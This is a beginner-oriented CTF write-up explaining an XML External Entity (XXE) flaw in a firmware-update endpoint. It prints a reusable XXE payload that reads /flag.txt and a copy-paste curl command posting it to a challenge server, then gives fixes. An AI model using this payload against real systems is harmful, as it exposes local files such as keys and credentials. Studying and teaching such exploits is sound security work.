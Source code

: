 # Jailbreak — Writeup (Beginner-friendly)

**Challenge name:** Jailbreak  
**Points:** 900

---

## Summary (one-sentence)
You exploited an **XML External Entity (XXE)** vulnerability in a firmware update endpoint to read the file `/flag.txt` from the challenge server and retrieve the flag.

---

## What the challenge is
The service accepts an XML firmware update. The XML parser on the server is misconfigured and allows external entities (a feature of XML). By defining an entity that points to a local file and then referencing it inside the XML, the server expands the entity and leaks the file contents back to you.

This is a CTF exercise — do **not** try this on systems you don’t own or have permission to test.

---

## Concepts you need to know (short)
- **XML**: a structured text format (like HTML).  
- **DOCTYPE / ENTITY**: XML has a feature where you can define shortcuts (entities) in a `<!DOCTYPE>` block.  
- **XXE (XML External Entity)**: a vulnerability that happens when an XML parser loads external entities, potentially letting an attacker read local files.

---

## How it works (simple steps)
1. We send an XML document to the server that includes a `<!DOCTYPE>` declaration.  
2. Inside the `DOCTYPE` we define an entity (named `xxe`) that tells the parser to read `file:///flag.txt`.  
3. We reference `&xxe;` inside an element in the XML body (for example inside `<Version>`).  
4. The server’s XML parser replaces `&xxe;` with the contents of `/flag.txt`.  
5. If the server returns or shows the parsed XML, the flag becomes visible to us.

---

## Payload (exact XML you can reuse)
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt">]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>1.33.7&xxe;</Version>
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
    </Firmware>
</FirmwareUpdateConfig>
```

Put that as the POST body to `/api/update` and the application (if vulnerable) will expand `&xxe;` to file contents.

---

## Example `curl` command (copy-paste)
```bash
curl -s -X POST 'http://94.237.57.211:57541/api/update' \
  -H 'Content-Type: application/xml' \
  --data-binary $'<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt">]>\n<FirmwareUpdateConfig>\n  <Firmware>\n    <Version>1.33.7&xxe;</Version>\n    <ReleaseDate>2077-10-21</ReleaseDate>\n  </Firmware>\n</FirmwareUpdateConfig>'
```
Run that in Terminal; if the service is vulnerable it will output the server response which will include the expanded contents of `/flag.txt` (the flag).

---

## What you should see
Look in the response for a string that looks like a flag (common formats: `FLAG{...}` or `flag{...}` or similar). The exact format depends on the CTF platform.

---

## Why this is bad (in plain English)
The server is trusted to parse XML safely. Because it allowed the XML parser to read files from the local filesystem, an attacker can trick it into showing secrets (like configuration files, keys, or the flag). In real-world systems, that could expose passwords, private keys, or other sensitive data.

---

## How to fix it (brief)
- Disable DTD and external entity processing in the XML parser.  
- If you don’t need DOCTYPE processing, explicitly block DOCTYPE declarations from untrusted input.  
- Use modern, safe parsing libraries or use JSON where possible.  
- Run the service with the least privilege so files like `/flag.txt` aren’t accessible.

---

## Notes and tips for beginners
- If nothing appears in the response, the server might parse but not display that value — some XXE scenarios require different techniques (blind XXE or out-of-band exfiltration).  
- Always confirm you are posting to the correct URL and port shown in the challenge.  
- Keep your README short and show the exact payload and curl command — judges like reproducible steps.

---

## License / Attribution
Writeup created for a CTF challenge. Do not use on unauthorized systems.
